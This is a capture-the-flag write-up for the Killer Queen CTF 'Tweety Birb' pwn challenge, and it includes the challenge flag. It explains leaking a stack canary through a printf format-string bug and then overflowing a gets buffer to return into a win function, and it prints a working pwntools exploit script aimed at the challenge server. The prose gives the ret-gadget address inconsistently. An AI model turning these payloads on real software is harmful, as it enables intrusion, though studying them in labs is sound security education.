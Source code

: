 ```yaml
---
layout: writeup
title: Tweety Birb
ctf: Killer Queen CTF
points: 248
solves: 129
tags: 
    - pwn
date: 2021-11-01
description: |-
    Pretty standard birb protection.
flag: kqctf{tweet_tweet_did_you_leak_or_bruteforce_..._plz_dont_say_you_tried_bruteforce}
---
```

<details>
    <summary>tl;dr</summary>
    
</details>

***

## Introduction

We are given a binary with the following main function
```clike
int main(void) {
    char buffer [72];
    long canary = *(long *)(in_FS_OFFSET + 0x28);

    puts("What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it\'s not like you hacker can do anything. Anyways, what do you think of magpies?");
    gets(buffer);
    printf(buffer);

    puts("\nhmmm interesting. What about water fowl?");
    gets(buffer);
    
    if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
    }
    return 0;
}
```
We have a buffer of size 72. First, we have a call to `gets`, allowing us to write anything, including more than 72 characters, so we have a buffer overflow.

We also have a `win` function elsewhere which calls `cat flag.txt` in a shell, so we want to return to this by overwriting RSP. The problem here (which the title hints at) is that canaries are enabled. This means a random value is set up in the beginning of `main` right after the other local variables. At the end of `main` it checks if this canary has been modified, and if so crashes.

So the second we write more than 72 bytes to the buffer, we modify the canary, which results in a crash. What we want to modify lies after the canary.

The only way to get around this is by somehow leaking the canary. If we can do this, we can write 72 bytes of padding, followed by the canary and then what we want to place in RBP and RSP.

Luckily we ALSO have a format string vulnerability, since `printf(buffer)` is called directly on our input, allowing us to pass any format string. Since no other arguments are passed, if we input e.g. `%x`, the value that it prints will just be the next on the stack.

The canary also lies on the stack and by using `gdb` to debug the program, we can get the correct index in the stack, in this case 15. This means that if we pass `%15$p` to the first `gets()`, then the stack canary is leaked in the `printf()`.

We find the address of the `win` function with `objdump -d tweetybirb | grep win`, which returns `00000000004011d6 <win>:`. Now we can create the following payload:

- 72 bytes of padding
- leaked canary
- rbp (8 random bytes)
- rsp (0x4011d6)

We also need to remember to align the stack when run remotely, so we find a `ret` gadget with `ropper -f tweetybird` at address 0x4011d6 and add this before the `win` address.

We get the flag with the following script:

```python
from pwn import *

p = remote("143.198.184.186", 5002)

# LEAK CANARY IN 
p.recvuntil(b"?\n")
p.sendline(b"%15$p")

canary = p64(int(p.recvline()[2:-1], 16))
log.success(f"Canary leaked: {canary}")

p.recvuntil(b"?\n")

# BUFFER OVERFLOW
padding = b"A" * 72
rbp = b"B" * 8
ret = p64(0x40101a)
win_addr = p64(0x4011d6)

payload = padding + canary + rbp + ret + win_addr
p.sendline(payload)

p.interactive()
```
The flag returned is